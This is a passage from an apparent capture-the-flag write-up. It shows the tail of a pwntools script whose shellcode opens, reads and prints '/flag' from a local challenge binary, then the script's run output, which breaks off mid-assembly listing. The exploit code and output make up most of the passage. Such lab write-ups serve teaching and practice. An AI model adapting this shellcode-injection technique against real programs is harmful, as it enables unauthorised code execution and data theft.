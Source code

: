    ```py

   xor rax, rax
   mov rsi, rsp
   mov rdx, 0x50
   syscall

   mov rdx, rax
   mov rax, 0x1
   mov edi, 0x1
   mov rsi, rsp
   syscall

   mov rax, 60
   xor edi, edi
   syscall

   path:
       .string "/flag"
   """)

   conn.recvuntil(b"Enter 0x1000")
   shellcode = shellcode.ljust(0x1000, b"\x90")
   conn.send(shellcode)

   conn.interactive()
   ```

6. Run the script:

   ```sh
   (venv) $ python script.py
   [!] Could not populate PLT: Cannot allocate 1GB memory to run Unicorn Engine
   [*] '/root/babysc/babysc_no_syscall_check'
       Arch:       amd64-64-little
       RELRO:      Full RELRO
       Stack:      No canary found
       NX:         NX unknown - GNU_STACK missing
       PIE:        PIE enabled
       Stack:      Executable
       RWX:        Has RWX segments
       SHSTK:      Enabled
       IBT:        Enabled
       Stripped:   No
       Debuginfo:  Yes
   [+] Starting local process './babysc_no_syscall_check' argv=[b'./babysc_no_syscall_check'] : pid 22862
   [DEBUG] cpp -C -nostdinc -undef -P -I/root/venv/lib/python3.12/site-packages/pwnlib/data/includes
   [DEBUG] Assembling
       .section .shellcode,"awx"
       .global _start
       .global __start
       _start:
       __start:
       .intel_syntax noprefix
       .p2align 0
       mov rax, 0x2
       lea rdi, [rip + path]
       xor esi, esi
       xor edx, edx
       syscall
       mov rdi, rax
       xor rax, rax
       mov rsi, rsp
   ```